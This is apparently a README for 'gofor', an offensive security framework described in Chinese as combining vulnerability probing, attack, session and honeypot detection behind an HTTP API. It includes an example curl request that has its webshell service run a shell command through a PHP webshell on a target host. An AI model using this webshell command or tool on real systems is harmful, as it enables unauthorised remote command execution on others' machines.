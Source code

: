 # gofor
一款集漏洞探测、攻击，Session会话，蜜罐识别等功能于一身的软件，基于go-micro微服务框架并对外提供统一HTTP API网关接口服务

# HTTP API Gateway
```shell
cd src/api-srv && \
go run main.go
```

# Service Install(Optional)
**Webshell**
```shell
cd src/webshell-srv && \
go run main.go
```
# Example
[*] php webshell调用例子
```shell
curl -H "Content-Type:application/json;charset=utf-8" -X POST -d '{"target":"http://172.31.50.248:8080/ant.php","language":"php","cmd":"ls"}' http://172.31.50.249:8888/webshell/WebshellServiceExt/RunCmdWithOutput
```
